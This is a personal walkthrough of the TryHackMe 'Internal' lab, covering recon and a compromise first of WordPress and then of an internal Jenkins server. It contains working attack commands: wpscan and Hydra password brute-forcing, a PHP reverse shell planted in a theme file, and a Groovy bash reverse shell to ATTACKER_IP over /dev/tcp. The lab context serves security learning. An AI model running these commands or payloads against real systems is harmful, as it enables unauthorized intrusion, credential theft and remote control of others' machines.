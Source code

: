```yaml
---
title: "Internal machine tryhackme writeup"
excerpt_separator: "<!--more-->"
date: 2023-11-18
categories:
  - TryHackMe Writeups
tags:
  - Hacking
  - Notes
  - writeup
  - ctf
---
```


### Internal (Difficulty: Hard) — TryHackMe Walkthrough

- *My writeups are more of my own mind-map than an "official" walkthrough, it may not seem straightforward sometimes but that's just the beauty of my own thinking.*

---

### Summary:

- Target exposed multiple web apps including WordPress and phpMyAdmin, leading to WordPress admin access via brute force.
- Theme editor RCE delivered a reverse shell and local enumeration revealed saved credentials.
- Pivoted to an internal Jenkins, forwarded over SSH, then abused Script Console for code execution to escalate to root.

### Target Surface:

- Discovered with nmap and directory brute forcing
    - /blog/
    - /javascript/ — forbidden
    - /phpmyadmin/
    - /server-status/ — forbidden
    - /wordpress/

### Tooling:

- Recon: nmap, gobuster
- Web: wpscan, Hydra
- Shells: netcat
- Access: SSH port forwarding

---

## User Flag:

1) Enumerate and identify WordPress

- Quick web dir brute force reveals /wordpress/ and /phpmyadmin/
- WordPress login present. User enumeration indicates user "admin"

2) Brute force WordPress admin

```bash
wpscan --url http://internal.thm -U admin -P /usr/share/wordlists/rockyou.txt
```

3) Get RCE via theme editor

- In wp-admin Appearance → Theme File Editor, edit 404.php with a PHP reverse shell
- Use pentestmonkey PHP reverse shell template

```bash
# Listener on attacker
nc -lvnp 4242
# Then visit /wp-content/themes/<theme>/404.php to trigger
```

4) Local enumeration → saved creds

- Look in /opt for interesting files
- Found /opt/wp-save.txt containing credentials for user aubreanna

5) SSH and grab user flag

- SSH to aubreanna with recovered credentials
- Read user.txt

> Trick 1: Theme editor RCE beats plugin rabbit holes. 404.php is reliably called.
> 

> Trick 2: /opt is a high‑signal directory for custom notes and saved creds.
> 

---

## Root Flag:

1) Do not ignore hints

- A jenkins.txt note mentioned an internal Jenkins service
- Initially skipped because of an internal IP — fix with port forwarding

2) Port forward Jenkins to [localhost](http://localhost)

```bash
ssh -L 6767:172.17.0.2:8080 aubreanna@internal.thm
# Browse http://127.0.0.1:6767
```

3) Brute force Jenkins login

```bash
hydra 127.0.0.1 -s 6767 -V -f \
  http-form-post \
  "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" \
  -l admin -P /usr/share/wordlists/rockyou.txt
```

4) Code execution via Script Console

> Jenkins exposes a Groovy Script Console that can run arbitrary code in the master runtime.
> 
- Use Groovy to spawn a bash reverse shell

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- Keep netcat listener open. If tty is awkward, upgrade

```bash
/bin/bash -i
```

5) Loot and escalate

- As jenkins, enumerate for local notes
- Found /opt/note.txt with root credentials
- SSH to root and read /root/root.txt

> Trick 3: Always translate internal-only services into your browser with SSH -L.
> 

> Trick 4: Jenkins Script Console is a one‑stop RCE when authenticated.
> 

> Trick 5: Post‑ex creds often live in /opt or notes files.
> 

---
